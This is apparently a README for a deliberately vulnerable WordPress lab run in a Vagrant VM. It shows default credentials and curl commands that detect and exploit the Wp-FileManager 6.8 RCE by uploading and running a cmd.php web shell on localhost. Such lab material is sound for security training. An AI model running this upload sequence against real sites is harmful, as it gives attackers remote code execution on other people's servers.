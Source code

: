 # WordpressVuln



A vulnerable wordpress site


# Install 

The vulnerable wordpress server run in a virtual machine on an ubuntu host 
The server is build in an alpine with nginx/php-fpm and mariadb.



## Install vagrant 

```sudo apt install vagrant```


## Clone the repo and customize the site url 

```git clone https://github.com/jossets/WordpressVuln
```



## Start server 

```vagrant up
```

## Credentials 

Vagrant alpine box credentials are:
- login: vagrant 
- password: vagrant 


# Exploit 

WordPress Plugin Wp-FileManager 6.8 - RCE 
https://www.exploit-db.com/exploits/49178

## Detect 
```curl  "http://localhost:8080/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php"

{"error":["errUnknownCmd"]}
```

## Exploit

### Upload cmd.php
```curl -F "cmd=upload" -F "target=l1_Lw"  -F "upload[]=@cmd.php" "http://localhost:8080/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php"
```

### Run it
```curl  "http://localhost:8080/wp-content/plugins/wp-file-manager/lib/files/cmd.php"

Pwnd
```